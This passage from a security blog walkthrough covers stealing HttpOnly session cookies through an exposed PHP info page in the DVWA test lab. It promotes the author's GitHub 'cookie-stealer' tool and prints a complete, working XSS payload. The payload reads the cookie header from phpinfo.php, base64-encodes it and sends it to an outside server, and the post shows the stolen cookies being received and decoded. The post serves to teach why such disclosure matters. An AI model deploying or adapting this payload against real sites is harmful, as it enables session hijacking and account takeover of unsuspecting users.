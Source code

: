 will be sending us their cookies associated with *DVWA*, including the session cookie and therefore we will have achieved a session hijacking.

Obviously this is a test environment and no one is going to click on that link except me, and even if someone did click on it nothing would happen because that IP address is a private IP address. But imagine this situation in a public website of an important company and an attacker sending a link like this using social engineering through Twitter, Linkedin, Facebook... and sending the user's cookies to an own server. 

Do you still think that PHP info page disclosure is not an important vulnerability?

<div id='section-id-2-3'/>
## 2.3. Using my Github tool to generate an improved payload

As you can see, the payload used in the previous section is not quite accurate since it returns not only cookies but also a lot of non-relevant HTML code. That is why I have uploaded the following tool to Github

[Link to the tool PHP-info-cookie-stealer](https://github.com/HackCommander/PHP-info-cookie-stealer)

To avoid repeating the same thing, if you want to know how the tool works you can see the README.md and you can give a star to the project :blush:. In this case, cloning the repo and running the following command

{% include codeHeader.html %}
```console
./generate-javascript-payload.sh http://192.168.240.128/dvwa/phpinfo.php http://192.168.240.129/
```

you will get the following XSS payload

{% include codeHeader.html %}
```html
<script>fetch('http://192.168.240.128/dvwa/phpinfo.php').then(response=>response.text()).then(data=>{const startString='<tr><td class="e">HTTP_COOKIE </td><td class="v">';const endString='</td></tr>';const startIndex=data.indexOf(startString)+startString.length;const endIndex=data.indexOf(endString,startIndex);const cookies=data.substring(startIndex,endIndex);const encodedCookies=btoa(cookies);fetch('http://192.168.240.129/'+'?encodedCookies='+encodedCookies,{method:'GET'});});</script>
```
This payload is much more accurate than the one used in the previous section because it sends only the cookies to the web server, without all the non-relevant HTML code. Repeating all the process of the previous section but executing this payload instead of the other one, you will receive a GET request like this

![](/assets/images/2022-11-12-bypass-httponly-via-php-info-page/user-cookies-exfiltrated-improved-payload.png)

The encoded cookies are sent through the encodedCookies GET parameter, so decoding it with the burpsuite decoder we can get the user cookies

![](/assets/images/2022-11-12-bypass-httponly-via-php-info-page/user-cookies-exfiltrated-decoded-improved-payload.png)
